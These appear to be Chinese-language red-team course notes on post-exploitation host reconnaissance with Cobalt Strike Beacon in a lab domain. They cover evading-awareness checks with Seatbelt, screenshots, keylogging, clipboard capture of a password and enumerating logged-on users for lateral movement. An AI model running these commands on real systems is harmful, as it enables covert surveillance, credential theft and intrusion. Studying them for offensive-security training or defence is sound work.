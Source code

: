 # Host Reconnaissance

主机侦查

> 在我们执行任何post-exploitation步骤之前，谨慎的做法是评估当前情况。我们执行的每项操作都存在一定的检测风险。这种风险的程度取决于我们的能力和任何防御者的能力。我们可以枚举主机以了解它受到保护和监控的程度。这可以包括防病毒 (AV) 或端点检测和响应 (EDR) 软件、Windows 审核策略、PowerShell 日志记录、事件转发等。

# Processes

使用```ps```命令列出系统上正在运行的进程

有几个有趣的过程，包括```Sysmon64、MsMpEng、elastic-endpoint和elastic-agent```。当以中等完整性(medium integrity)（即标准用户）运行时，您将无法查看当前用户不拥有的进程的架构、会话和用户信息

# Seatbelt

[Seatbelt](https://github.com/GhostPack/Seatbelt)是一个c#编写的用于主机探测的工具

什么是Common Language Runtime (CLR)？
.NET Framework 的一个组件，用于管理 .NET 程序集的执行，每个 .NET Framework 版本都设计为在特定版本的 CLR 上运行


枚举.NET Framework版本
```
beacon> reg queryv x64 HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full Release

Release                  460805
```

execute-assembly命令允许 Beacon 直接从内存运行 .NET 可执行文件，因此（一般而言）无需在运行这些工具之前将它们上传到磁盘
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
```

上面命令会产生大量输出，在安全配置方面主要留意下面的内容
```
====== AppLocker ======
[*] Applocker is not running because the AppIDSvc is not running

====== LAPS ======
LAPS Enabled                  : True

====== OSInfo ======
IsLocalAdmin                  :  False

====== PowerShell ======
Script Block Logging Settings
Enabled                       : True

====== Services ======
Non Microsoft Services (via WMI)

Name                          : Sysmon64
BinaryPath                    : C:\Windows\Sysmon64.exe
FileDescription               : System activity monitor

====== Sysmon ======
ERROR: Unable to collect. Must be an administrator.

====== UAC ======
[*] LocalAccountTokenFilterPolicy == 1. Any administrative local account can be used for lateral movement.

====== WindowsFirewall ======
Domain Profile
  Enabled                  : False

Private Profile
  Enabled                  : False

Public Profile
  Enabled                  : False
```


枚举用户环境变量
```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=user
```

这个映射的驱动器条目向我们展示了用户配置文件放在远程共享上
```
Mapped Drives (via WMI)

  LocalName                      : H:
  RemoteName                     : \\dc-2\home$\bfarmer
  RemotePath                     : \\dc-2\home$\bfarmer
  Status                         : OK
  ConnectionState                : Connected
  Persistent                     : False
  UserName                       : DEV.CYBERBOTIC.IO\bfarmer
  Description                    : RESOURCE CONNECTED - Microsoft Windows Network
```

# Screenshots

屏幕截图

目的：可以显示用户正在使用的系统或应用程序、他们拥有的快捷方式、他们正在处理的文档等等

Beacon 有多个用于截屏的命令，它们的工作方式略有不同
```
printscreen               Take a single screenshot via PrintScr method
screenshot                Take a single screenshot
screenwatch               Take periodic screenshots of desktop
```

在cobaltstrike上截图
```
View > Screenshots
```

# Keylogger

键盘记录器

作用：键盘记录器可以捕获用户的键盘敲击记录，这对于捕获用户名、密码和其他敏感数据特别有用。

```
beacon> keylogger
[+] received keystrokes from Secret Application - Google Chrome by bfarmer
```

在cobaltstrike上记录键盘日志
```
View > Keystrokes
```

停止记录键盘日志命令：jobkill 
```
beacon> jobs
[*] Jobs

 JID  PID   Description
 ---  ---   -----------
 1    0     keystroke logger

beacon> jobkill 1
```

# Clipboard

```clipboard```命令将捕获用户剪贴板中的任何文本（它不会捕获图像或任何其他类型的数据）

这是一次性命令（它不作为作业运行）并将内容直接转储到 Beacon 控制台

```
beacon> clipboard
[*] Tasked beacon to get clipboard contents

Clipboard Data (8 bytes):
Sup3rman
```

# User Sessions

当前登录到同一台机器的用户可能是很好的攻击目标。如果他们比我们当前在域中的用户更有特权，他们可能是横向移动到其他机器的好选择

```
beacon> net logons

Logged on users at \\localhost:

DEV\bfarmer
DEV\jking
DEV\WKSTN-2$
```